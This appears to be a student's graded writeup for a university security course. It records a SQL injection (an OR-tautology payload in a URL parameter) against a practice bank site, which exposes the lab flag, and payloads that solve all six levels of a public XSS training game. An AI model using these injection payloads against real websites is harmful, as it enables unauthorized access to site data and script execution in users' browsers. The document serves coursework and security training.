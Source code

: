# Crypto II Writeup

Name: Cheyenne Scott
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Cheyenne Scott

## Assignment Writeup

### Part 1 (40 Pts)
First, I started with trying different things in the bar to insert code. I tried 
1337bank.money:5000/item?id=1'_ (_ is a space). This gave an internal server error, 
meaning that an error in the coding exists. Then, I added an or, doing 1337bank.money:5000/item?id=1'|| '1=1_
and it gave all of the pages on the website plus the flag, which is below. 
CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)


Level 1. I just typed <script>alert("hi")</script> in the search bar
Level 2. I went into the post box and did <img src="/static/logos/level2.png" onload = "alert(0)" /> 
Level 3. I had to figure out what the website was for the game and added an alert to the website bar: https://xss-game.appspot.com/level3/frame#3' onerror='alert(0)'
Level 4. In the box for the time, I put 1'); to complete the time needed, then the alert, so 1'); alert('XSS 
Level 5. Looking at the way it processes email addresses, if you go through the URL bar, type https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(0); then press next
Level 6. You can link the URL to go to a random plain text file, then right after do an alert with https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
